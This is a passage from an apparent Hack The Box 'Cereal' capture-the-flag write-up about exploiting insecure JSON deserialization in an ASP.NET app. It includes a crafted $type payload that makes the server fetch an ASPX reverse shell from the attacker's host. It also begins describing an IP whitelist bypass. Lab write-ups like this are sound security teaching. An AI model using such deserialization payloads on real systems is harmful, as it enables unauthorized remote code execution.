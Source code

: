 ![25](/assets/images/HTB/Cereal/25.png){: width="600" height="400"}

My strategy is that, since the deserialized code does expect type information in the JSON object, and the deserialization is not handled in a secure fashion, I can create a serialized payload from the project leaked, that payload simply represents an object from the `DownloadHelper`{:style="color:orange"} class, and force the app to upload a reverse shell to the box.

Creating such an object is not that hard of a task. You can simply deduce it from this article from before

So, here is my object:
```json
{
    '$type':'Cereal.DownloadHelper, Cereal',
    'URL':'http://10.10.16.251:8000/jA.aspx',
    'FilePath':'C:/inetpub/source/uploads/jA.aspx'
}
```

where `'$type':'Cereal.DownloadHelper, Cereal'`{:style="color:orange"} is simply the type information and `'URL':'http://10.10.16.251:8000/jA.aspx','FilePath':'C:/inetpub/source/uploads/jA.aspx'`{:style="color:orange"} are used to set `_URL` and `_FilePath` and call the `Download`{:style="color:orange"} function afterwards

**Note:** the value for `FilePath`{:style="color:orange"} ( `C:/inetpub/source/uploads/jA.aspx`{:style="color:orange"} ) is the directory leaked from `https://source.cereal.htb`{:style="color:orange"} at the very beginning

**Note:** I'm uploading an ASPX reverse shell since this is an ASP.NET project and is hosted on IIS

### 4. Bypassing the White List Policy
Now that i have a JSON serialized object that can bypass the if statement and I'm left with one more thing. It is that in order to send a GET request to `/requests/{id}`{:style="color:orange"} i need to meet a certain policy named `RestrictIP`{:style="color:orange"} applied to the controller, and this policy is defined as `IPRequirement`{:style="color:orange"} Authorization policy in `/Startup.cs`{:style="color:orange"}
